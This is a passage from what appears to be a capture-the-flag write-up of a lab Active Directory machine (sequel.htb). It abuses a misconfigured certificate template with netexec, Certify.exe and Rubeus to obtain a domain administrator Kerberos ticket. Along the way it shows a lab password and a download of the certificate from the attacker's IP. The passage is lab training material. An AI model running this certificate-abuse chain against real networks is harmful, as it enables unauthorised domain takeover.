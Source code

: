 ```bash
sudo nxc ldap $IP -u ryan.cooper -p NuclearMosquito3 -M adcs
```

![image.png](image%2020.png)

**Finding Vulnerabilities:**

```bash
**.**\Certify.exe find /vulnerable /currentuser
```

![image.png](image%2021.png)

This certificate template is vulnerable because `sequel\Domain Users` have Enrollment rights on the template.

Reading [README.md](https://github.com/GhostPack/Certify/blob/main/README.md) of certify.exe we can see:

![image.png](image%2022.png)

Next, let's request a new certificate for this template/CA, specifying a DA `administrator` as the alternate principal:

```bash
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

```

Here we got the key:

![image.png](image%2023.png)
_Key is truncated in the image, let’s now continue reading README file._

Copy the  `-----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE-----` section to a file on Linux/macOS, and run the openssl command to convert it to a .pfx. When prompted, don't enter a password:
Finally, move the cert.pfx to your target machine filesystem (manually or through Cobalt Strike), and request a TGT for the `altname` user using Rubeus:

```bash
iwr -uri [http://10.10.14.6/cert.pfx](http://10.10.14.6/cert.pfx) -Outfile cert.pfx
```

```bash
.\Rubeus.exe asktgt /user:administrator /certificate:C:\users\ryan.cooper\cert.pfx
```

![image.png](image%2024.png)

- The `asktgt` command in `Rubeus` **requests a TGT** using the **certificate (PKINIT)** and **exports it to a file**, but it **does not inject** it into the current session by default.
- That means the ticket is saved as a `.kirbi` file (base64-encoded), but **your current session doesn’t have it loaded into memory**, so `klist` (which checks the Kerberos cache) doesn't see it.

It returned base64 ticket, but we need it in current session so let’s instruct Rubeus.exe save ticket in `.kirbi` file and then we are gonna load it into current session with Rubeus.exe

